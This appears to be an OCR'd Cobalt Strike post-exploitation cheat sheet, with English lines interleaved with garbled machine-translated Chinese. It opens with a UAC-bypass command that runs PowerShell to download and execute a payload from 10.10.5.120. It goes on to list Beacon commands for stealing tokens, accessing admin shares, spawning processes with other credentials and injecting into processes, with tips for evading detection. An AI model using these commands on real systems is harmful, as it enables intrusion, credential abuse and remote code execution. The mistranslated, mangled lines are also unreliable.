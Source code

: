 runasadmin uac -cmstplua powershell.exe -nop -w隐藏-c“ iex（（new -object net.webclient）.downloadstring（'http：//10.10.5.120:80/b'））

## Steal token from pid
## Like make_token but stealing the token from a process

##像make_token一样，但从过程中窃取令牌
steal_token [pid] # Also, this is useful for network actions, not local actions

steal_token [pid]＃另外，这对于网络动作而不是本地操作很有用
## From the API documentation we know that this logon type "allows the caller to clone its current token". This is why the Beacon output says Impersonated &#x3C;current_username> - it's impersonating our own cloned token.

##来自API文档，我们知道此登录类型“允许呼叫者克隆其当前令牌”。 这就是为什么Beacon Output表示模仿＆＃x3C; current_username>  - 它模仿我们自己的克隆令牌的原因。
ls \\computer_name\c$ # Try to use generated token to access C$ in a computer

ls \\ computer_name \ c $＃尝试使用生成的令牌访问计算机中的c $
rev2self # Stop using token from steal_token

## Launch process with nwe credentials

## NWE凭据的启动过程
spawnas [domain\username] [password] [listener] #Do it from a directory with read access like: cd C:\

spawnas [域\用户名] [密码] [侦听器]＃从带有读取访问的目录进行＃do，例如：cd c：\
## Like make_token, this will generate Windows event 4624: An account was successfully logged on but with a logon type of 2 (LOGON32_LOGON_INTERACTIVE).  It will detail the calling user (TargetUserName) and the impersonated user (TargetOutboundUserName).

##像make_token一样，这将生成Windows Event 4624：成功登录一个帐户，但登录类型为2（logon32_logon_interactive）。 它将详细介绍调用用户（targetUsername）和模仿用户（targetOutOutBoundUsername）。

## Inject into process

##注入进程
inject [pid] [x64|x86] [listener]
## From an OpSec point of view: Don't perform cross-platform injection unless you really have to (e.g. x86 -> x64 or x64 -> x86).

##从OPSEC的角度来看：除非您确实必须（例如x86-> x64或x64或x64-> x86），否则请勿执行跨平台注入。
